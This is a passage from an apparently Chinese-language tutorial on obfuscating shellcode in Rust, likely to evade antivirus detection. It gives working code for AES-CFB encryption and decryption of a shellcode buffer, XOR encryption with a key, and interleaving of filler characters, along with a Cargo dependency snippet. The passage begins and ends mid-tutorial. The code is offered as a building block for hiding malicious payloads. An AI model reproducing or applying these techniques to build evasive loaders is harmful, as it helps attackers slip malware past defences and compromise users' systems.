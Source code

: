 ```plain
    let mut buffer = [0u8; 2560];
    buffer[..pos].copy_from_slice(shellcode);

    let ciphertext = cipher.encrypt(&mut buffer, pos).unwrap();

    hex::encode(ciphertext)
}

fn dec(encrypted: &str, key: &str, iv: [u8; 16]) -> Vec<u8> {
    let binding = hex::decode(encrypted).expect("Decoding failed");
    let ciphertext = binding.as_slice();

    let key = key.as_bytes().to_vec();

    let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();

    let mut buf = ciphertext.to_vec();
    let shellcode = cipher.decrypt(&mut buf).unwrap();

    shellcode.to_vec()
}
```

### 添加随机字符

同样先在`Cargo.toml`文件中添加下面的依赖。

```plain
[dependencies]
hex = "0.4.3"
```

下面是结合异或加密和添加随机字符的代码，`xor_encrypt`将对 shellcode 与 key 进行异或，使用`hex::encode`将异或结果转为十六进制字符串返回，方便后面添加随机字符。`add_random`迭代`xor_encrypt`返回的字符串的每个字符，并在每次迭代时添加一个随机字符。最后，使用 `hex::encode` 将结果转为十六进制字符串返回。`xor_decrypt`和`rm_random`是对应的二次异或和删除随机字符的函数。

```plain
fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {
    let mut encrypted = Vec::new();
    for (i, &b) in shellcode.iter().enumerate() {
        encrypted.push(b ^ key[i % key.len()]);
    }
    hex::encode(&encrypted)
}

fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {
    let encrypted = hex::decode(encrypted).expect("Error");

    let mut decrypted = Vec::new();
    for (i, &b) in encrypted.iter().enumerate() {
        decrypted.push(b ^ key[i % key.len()]);
    }
    decrypted
}

fn add_random(xor_string: &str, key: &str) -> String {
    let mut result = String::new();

    for (i, c) in xor_string.chars().enumerate() {
        result.push(c);
        result.push(key.chars().nth(i % key.len()).unwrap());
    }
    hex::encode(&result)
}

```
